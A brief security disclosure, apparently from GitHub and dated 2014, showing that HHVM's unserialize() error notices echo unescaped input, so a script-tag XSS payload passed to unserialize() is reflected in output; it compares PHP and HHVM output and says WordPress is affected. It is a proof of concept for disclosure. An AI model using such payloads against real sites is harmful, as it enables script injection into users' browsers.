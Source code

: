 ### XSS via Error Reporting Notices in HHVM's unserialize() Function
> Taoguang Chen <[@chtg](http://github.com/chtg)> - 2014.10.31

``` php
<?php
unserialize('<script>alert(/xss/)</script>');
```
The outputs in PHP:
``` php
Notice: unserialize(): Error at offset 0 of 29 bytes in ...
```
The outputs in HHVM:
``` php
Notice: Unable to unserialize: [<script>alert(/xss/)</script>]. Expected ':' but got 's'. in ...
```
This issue can be exploited on a number of popular applications, such as: WordPress :)
